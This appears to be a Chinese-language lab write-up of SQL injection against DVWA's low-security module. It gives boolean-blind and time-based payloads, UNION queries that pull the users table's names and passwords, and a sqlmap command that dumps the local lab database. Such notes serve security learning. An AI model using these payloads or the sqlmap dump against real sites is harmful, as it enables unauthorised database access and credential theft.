




[TOC]

# low

使用sqlmap寻找可能存在的注入点




## 手动注入

根据sqlmap的测试结果，存在以下几种注入类型

### boolean-based blind（基于布尔）

可以猜测查询语句的代码是

```
select First name的列名 and Surname的列名 from 表名 where id的列名 ='输入的id'
```

查看源码：确实没有对用户输入进行过滤



根据sqlmap的payload进行注入测试。（#后面是注释）

```
id=1' OR NOT 4752=4752#
id=1' OR 4752=4752#
```

dvwa的返回结果




查询数据库名

```
1' union select 1,database()#
```

查询数据库中的表的结构

```
1' union select 1,column_name from information_schema.columns where table_name='users'#
```

可以爆出表的数据

```
1' union select 1,concat(user,password) from users#
```


### AND/OR time based blind

```
id=1' AND SLEEP(5)#
```

### error-based


##利用sqlmap

`--dump`即可曝出数据库中全部数据

`python2.7 sqlmap.py -u "http://dvwa.localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=7so5ddo0ufrpp8ff0kae9k8ra7; security=low" --dump`




`--dbs`曝出数据库

